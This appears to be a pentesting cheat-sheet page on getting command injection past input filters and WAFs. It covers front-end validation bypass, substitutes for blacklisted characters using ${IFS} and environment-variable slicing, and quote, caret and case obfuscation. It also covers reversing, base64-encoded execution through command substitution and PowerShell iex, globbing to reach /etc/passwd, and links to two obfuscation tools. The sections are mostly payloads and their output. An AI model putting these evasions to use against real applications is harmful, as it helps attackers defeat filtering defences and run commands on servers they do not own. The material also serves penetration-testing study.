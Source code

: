 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Filters

## Front-End Validation

If the restrictions are only applied on the client-side (Figure 1), we can bypassed them by using a proxy and modifying the request before it reaches the server (Figure 2).

<figure><img src="../../../../.gitbook/assets/command_injection_fev.png" alt=""><figcaption><p>Figure 1: Client-side restrictions block our injected command.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/cmd_inj_fev_1.png" alt=""><figcaption><p>Figure 2: Bypassing front-end validation.</p></figcaption></figure>

## App Filters/WAFs

If an error message is displayed where the output should be (Figure 3), then the filter exists in the application itself, whereas if it is displayed on another page, it indicates the presence of a WAF.

<figure><img src="../../../../.gitbook/assets/cmd_inj_waf_app.png" alt=""><figcaption><p>Figure 3: An application filter blocking our command injection attempt.</p></figcaption></figure>

We should first try to identify what is blocked. It could be a character (`;`), command (`id`), or both (`;id`). We can find out with some trial and error:

1. `127.0.0.1;` -> :x: (`;` is blocked)
2. Replacing `;` with `&` -> Works ✅&#x20;
3. `127.0.0.1&id` -> :x: (`id` is blocked)
4. Try methods below!

## Blacklisted Characters

### Bash

```bash
# list all environment variables
env
```

| Blocked | Alternative(s)                                                                                          |
| ------- | ------------------------------------------------------------------------------------------------------- |
| `+`     | <p><code>%09</code> (tab)</p><p><code>${IFS}</code></p><p><code>{cmd,flag}</code> (brace expansion)</p> |
| `/`     | `${PATH:0:1}`                                                                                           |
| `;`     | `${LS_COLORS:10:1}`                                                                                     |
| `:`     | `${LS_COLORS:4:1}`                                                                                      |

### Windows

```powershell
# list all environment variables
set # cmd
Get-ChildItem Env: # powershell

# if `\` is block
%HOMEPATH:~6,-4% # cmd
$env:HOMEPATH[0] # powershell
```

## Character Shifting

We can shift the character by 1, so when we can pass the ASCII character before the one we need. We can get the ASCII table using `man ascii`. For instance if we need to use the `+` symbol, we would use the `*` that comes after it.

```bash
echo $(tr '!-}' '"-~'<<<*)
+
```

## Quotes

Single or double quotes can be used to obfuscate a command as they are ignored by both Bash and PowerShell. CMD only ignores double quotes. **The quote type cannot be mixed and must always be an even number**.

```bash
# original command
whoami
x7331
# using single quotes
who'a'mi
x7331
# using double quotes
wh"oa"mi
x7331
```

Linux based systems can also use other characters.

```bash
wh$@oami
x7331

wh\oami
x7331
```

In CMD the `^` symbol can also be used.

```
wh^oami
x7331
```

## Casing

### Linux

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
x7331
# if spaces are blocked
$({tr,"[A-Z]","[a-z]"}<<<"WhOaMi")
x7331
```

### Windows

```powershell
whOAMi
x7331
```

## Reversing

### Linux

```bash
echo 'whoami' | rev
imaohw
$(rev<<<'imaohw')
x7331
# in one line
$(rev<<<$(echo${IFS}'whoami'|rev))
x7331
```

### Windows (PowerShell)

```powershell
# reverse command
"whoami"[-1..-20] -join ''
imaohw
# execute command
iex "$('imaohw'[-1..-20] -join '')"
x7331
```

## Encoding

Encoding the payload can be useful for simple pattern-matching evasion. For instance, regex patterns will have a hard time identifying bash commands in the encoded string. This is also useful if the server URL-encodes certain characters.

### Linux

```bash
# encode the payload
echo "whoami" | base64
d2hvYW1pCg==
# inject the encoded payload using command substitution
$(echo d2hvYW1pCg== | base64 -d)
x7331
```

### Windows

{% code overflow="wrap" %}
```powershell
# encode the command
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
dwBoAG8AYQBtAGkA
# execute the command
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
x7331
```
{% endcode %}

## Globbing

Using wildcards (`?`, `*`, `[`, `]`, `!`) to partially or fully match file names or other file content. Globbing can be hepful in the case where applications/WAFs restrict the use of certain characters.

```bash
ls -l /etc/passwd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

ls -l /???/passwd
-rwsr-xr-x 1 root root 72344 Feb  4 20:28 /bin/passwd
-rw-r--r-- 1 root root  2225 Apr  5 15:01 /etc/passwd

ls -l /e??/passwd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

ls -l /e??/????wd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

ls -l /e??/{p????d,g???p}
-rw-r--r-- 1 root root  955 Apr  5 15:35 /etc/group
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd
```

## Automated Tools

There are also automated tools for bypasing CI filters (both deprecated).

{% tabs %}
{% tab title="Bashfuscator" %}
{% embed url="https://github.com/Bashfuscator/Bashfuscator" %}
{% endtab %}

{% tab title="DOSfuscation" %}
{% embed url="https://github.com/danielbohannon/Invoke-DOSfuscation" %}
{% endtab %}
{% endtabs %}
